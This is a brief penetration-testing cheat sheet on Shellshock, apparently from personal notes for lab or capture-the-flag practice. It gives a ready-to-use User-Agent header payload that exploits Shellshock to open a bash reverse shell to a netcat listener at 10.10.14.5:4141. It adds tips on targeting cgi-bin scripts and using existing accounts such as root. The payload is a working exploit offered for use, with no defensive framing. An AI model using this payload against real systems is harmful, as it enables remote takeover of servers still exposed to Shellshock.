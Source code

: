 <h1>Vulnerabilities & exploitation</h1>


<h1>Shellshock</h1>

<h3>Burpsuite usage:</h3>

Use this payload in User-Agent to open a reverse shell to a netcat listener:
* () { :; };bash -i >& /dev/tcp/10.10.14.5/4141 0>&1 

- Note: You must have a target directory in cgi-bin and if you have credentials options, use an existing user. (root etc.)


